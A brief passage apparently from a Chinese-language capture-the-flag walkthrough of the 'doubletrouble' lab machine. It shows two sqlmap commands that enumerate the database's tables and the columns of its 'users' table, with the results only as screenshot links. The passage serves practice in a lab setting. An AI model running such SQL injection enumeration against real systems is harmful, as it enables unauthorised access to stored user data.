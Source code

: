 ```
sqlmap -l sql --batch -D doubletrouble --tables
```

![image-20250315053017176](assets/image-20250315053017176.png)

![image-20250315053022585](assets/image-20250315053022585.png)



尝试读取字段名

```
sqlmap -l sql --batch -D doubletrouble -T users --columns
```

![image-20250315053053070](assets/image-20250315053053070.png)

![image-20250315053059397](assets/image-20250315053059397.png)

